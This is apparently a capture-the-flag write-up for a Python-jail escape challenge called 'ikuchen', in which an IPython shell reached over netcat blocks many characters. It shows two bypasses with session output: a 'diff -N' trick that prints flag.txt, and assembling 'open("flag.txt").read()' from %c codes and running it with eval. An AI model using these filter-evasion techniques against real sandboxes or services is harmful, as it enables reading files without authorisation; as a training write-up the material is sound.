 # Stage 3: ikuchen - pwn - medium

## Challenge

Somehow our cat 🐈 ate all the .py. And some letters, too... Who needs brackets, anyway?  
199.247.4.207 5656

## Solution

Via netcat you get access to a iPython shell. 

iPython has some magic function starting with %, but a cat is eating your characters. 

Entering % will give following output:

```
The cat 🐈 will eat lines starting with `%`. Oh and btw I found out it eats the following: 
`p*[^%\x2D-\x3D\x40-\x50\x27\x5F-\x6D\x20\x76-\x7A]*,*`
```

So we are not able to use characters like * ! $ or letters o p and t

Also every line starting with % gets eaten. 

There are two known solutions
 - ll; diff -N . .. 
 
 diff compares two files, -N treats a missing file as empty. As the the flag.txt does not exists at ```..``` it outputs everything.
 ``` 
 In [1]: ll; diff -N . ..
total 8
-rw-r--r-- 1 root   46 Dec 27 15:00 flag.txt
-rw-r--r-- 1 root 2808 Dec 27 14:10 ikuchen.py
Common subdirectories: ./app and ../app
Common subdirectories: ./bin and ../bin
Common subdirectories: ./boot and ../boot
Common subdirectories: ./dev and ../dev
Common subdirectories: ./etc and ../etc
diff -N ./flag.txt ../flag.txt
1d0
< junior-IPython_jails_are_EASY_2_secu__cthulhu
```
 - encoding strings and eval

 %c encodes ascii values to a character. 102 108 97 103 46 116 120 116 gives you flag.txt and _ reuses the last output.
```
$ netcat 199.247.4.207 5656
  
Oh hi there, I didn't see you come in!
How do you do?
There must be a flag lying around somewhere on this blech.
If you could be so kind and help me find it.
How do 15 seconds of RCE in IPython sound?
Sadly the cat ate some of characters while I baked them. 🐈

/usr/local/lib/python3.8/site-packages/IPython/paths.py:67: UserWarning: IPython parent '/home/c3junior' is not a writable location, using a temp directory.
  warn("IPython parent '{0}' is not a writable location,"
Python 3.8.1 (default, Dec 20 2019, 22:11:13) 
Type 'copyright', 'credits' or 'license' for more information
IPython 7.10.2 -- An enhanced Interactive Python. Type '?' for help.

In [1]:  /'%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c'% 111 112 101 110 40 34 102 108 97 103 46 116 120 116 34 41 46 114 101 97 100 40 41
Out[1]: 'open("flag.txt").read()'

In [2]: /eval _
Out[2]: 'junior-IPython_jails_are_EASY_2_secu__cthulhu\n'
